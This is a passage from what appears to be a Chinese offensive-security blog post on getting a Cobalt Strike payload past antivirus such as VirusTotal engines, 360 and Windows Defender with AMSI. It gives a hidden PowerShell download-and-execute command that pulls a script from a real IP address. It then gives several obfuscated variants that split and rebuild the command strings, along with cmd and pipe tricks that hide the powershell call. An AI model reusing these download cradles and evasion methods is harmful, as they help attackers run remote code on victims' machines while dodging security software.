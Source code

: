 老规矩，先上线后查杀。

![](https://image.3001.net/images/20200911/1599795870.png!small)

上线成功，没有被杀的了。完美~

![](https://image.3001.net/images/20200911/1599795899.png!small)

## 0x04 总结

VT确实免杀了，不过呢实际执行的时候360跟defender还是会拦截（翻车现场，勿喷），通过混淆执行语句可以绕过，昨天试过了还没问题，今天写文章发现defender的amsi更新了，没有截图。文章的目的也不是直接给大家使用，不是最新版本的直接使用确实没问题，对于最新版的杀软这里的思路还是可用，只是需要加入更多的混淆，或者加一些编码进去。

## 0x05 扩展

下面讲下执行远程执行脚本时代码混淆，有的时候直接执行cs生成的语句杀软会拦截。

原始语句：

```text
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://103.232.213.20:45685/text.txt'))"
```

只是后我们就需要混淆下代码了，可以使用Replace替换关键字部分字母，加上通过拆分后重新组合

例如：

```text
powershell.exe -nop -w hidden -c "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://0.0.0.0:4545/text.txt'')'.Replace('123','adString');IEX ($c1+$c2)"
```

或者

```text
powershell.exe -nop -w hidden -c "$c1='IEX(New-Object Net.WebClient).123'.Replace('123','Downlo');$c2='adString(''httaaa.213.20:45685/text.txt'')'.Replace('aaa','p://103.232/text.txt');IEX ($c1+$c2)"
```

还有powershell语言的特性来混淆代码

常规方法：

```text
cmd.exe /c "powershell -c Write-Host SUCCESS -Fore Green"
```

```text
cmd.exe /c "echo Write-Host SUCCESS -Fore Green | powershell -"
```

```text
cmd /c "set p1=power&& set p2=shell&& cmd /c echo Write-Host SUCCESS -Fore Green ^|%p1%%p2% -"
```

管道输入流：

```text
cmd.exe /c "echo Write-Host SUCCESS -Fore Green | powershell IEX $input"
```
